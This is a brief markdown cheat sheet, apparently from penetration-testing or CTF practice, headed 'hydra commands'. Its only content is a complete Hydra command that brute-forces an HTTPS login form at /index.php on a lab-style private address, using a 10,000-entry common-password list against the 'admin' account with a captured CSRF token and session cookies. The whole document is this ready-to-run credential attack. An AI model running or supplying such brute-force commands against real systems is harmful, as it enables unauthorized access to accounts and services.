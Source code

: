 # hydra commands
- brute force a login at /index.php with headers over https
```
hydra -L users.txt -P '/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt' 10.10.10.60 -S -s 443 http-post-form "/index.php:__csrf_magic=sid%3A2983ce3e22fdf5b264dd8a800638c01ae0b4b95c%2C1588990012&usernamefld=admin&passwordfld=^PASS^&login=Login:Username or Password incorrect:H=Cookie: PHPSESSID=71e0a0a5515c37964575c7cb1fd9fa3c; cookie_test=1588993667"
```
